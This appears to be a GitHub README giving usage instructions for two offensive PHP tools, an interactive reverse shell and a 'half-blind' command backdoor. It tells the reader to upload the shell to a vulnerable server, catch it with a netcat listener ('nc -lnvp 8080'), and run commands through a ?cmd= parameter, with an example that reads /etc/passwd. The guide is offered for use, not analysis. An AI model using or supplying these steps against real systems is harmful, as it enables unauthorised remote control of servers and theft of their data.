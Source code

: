 # php-reverse-shell.php - Guide
This is interractive php reverse shell. It creates sh reverse shell.
## Usage:
- First Change ip address and port to your ip address and port.
```
$ip_address  = '127.0.0.1'; 	
$port_number = 8080;
```
- Upload php-reverse-shell.php to remote server (generally with the vulnerability you discovered).
- In your system install netcat if not already installed and run this command in the terminal:
```
nc -lnvp 8080
```
- Here 8080 is the open port in your system it should be same as $port_number in php-reverse-shell.php
- Trigger the remote shell script.
```
https://vulnerable-web.site/php-reverse-shell.php
```
- You will successfully get a reverse shell on your terminal.

# basic-half-blind-backdoor.php - Guide
This is hald-blind non-interractive php backdoor. YOu can run commands on remote server but you will not get reverse shell.
## Usage:
- First upload the basic-half-blind-backdoor.php to remote server.
- Trigger the script using web browser or curl:
```
curl https://vulnerable-web.site/basic-half-blind-backdoor.php?cmd=<linux command here>
```
For example:
```
curl https://vulnerable-web.site/basic-half-blind-backdoor.php?cmd=ls
```
OR you can directly type the url with command on your web browser:
```
https://vulnerable-web.site/basic-half-blind-backdoor.php?cmd=cat%20/etc/passwd
```
## Enjoy !!!!